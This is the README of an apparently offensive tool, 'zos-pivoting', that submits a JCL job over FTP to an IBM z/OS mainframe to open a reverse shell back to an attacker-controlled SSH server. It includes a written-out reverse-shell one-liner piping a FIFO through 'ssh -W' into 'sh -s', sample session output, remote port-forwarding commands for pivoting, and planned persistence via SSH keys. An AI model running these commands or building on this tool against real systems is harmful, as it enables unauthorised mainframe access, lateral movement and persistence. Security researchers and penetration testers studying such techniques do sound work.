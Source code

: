 # zos-pivoting

Library set to get a secure reverse shell by submitting a JCL job via FTP on z/OS.

```
$ python ftp2shell.py config.ini
Input the password for zuser on target.mainframe.net:

Save the pulic key below in ~ccserveraccount/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+og7UDXjtluvauvB3Uo7eFqYGTDYlptkd[...]

Press Enter to continue...
mf.bigiron.local> uname
OS/390
mf.bigiron.local> exit
This will terminate the connection to mf.bigiron.local, are you sure? (y/N) y
```

The library contains:

 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items
 * `reverseshellmanager.py` uses `zosutils/wrappingshell.py` to get a nice interactive shell with some post-exploitation commands
 * `zosutils/stdiotranscoder.py` wraps the stdin/stdout of a command and performs transparent re-encoding (EBCDIC to UTF8 or other encodings supported by python). In other words: makes nc/ncat support EBCDIC and other character encoding systems
 * `zosutils/wrappingshell.py` uses the stdio transcoder to run a asynchronous/asynchronous shell via `nc` or similar
 * `zosutils/zosftp.py` talks FTP and uses the extra features of the FTP server in z/OS
 * `zosutils/jcl.py` to generate JCL cards
 * `sshutils/ssh_utils.py` generation and management of SSH keys and fingerprinting

The python files in the root of the project exhibit a lower coding quality than the others.

## Design
This project uses the new SSH stdin and stout redirection to get a fully interactive reverse shell on a mainframe.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N \
-W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running SSH.

You have to do the cleanup by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Usage:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start an SSH connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The SSH tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further SSH commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:localhost:23
```
And then connect to localhost:2222.

## Future Steps
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Persistence via SSH keys (?)
* Port to other systems

## Can't do on z/OS
* Cannot automate running custom sshd server:
    * sshd has no run permissions for users by default
    * copying the binary to another path will not work, as a daemon need to be marked as `program controlled`
    * ***z/OS 2.4 will probably get the latest and greatest OpenSSH with full `-R` support***
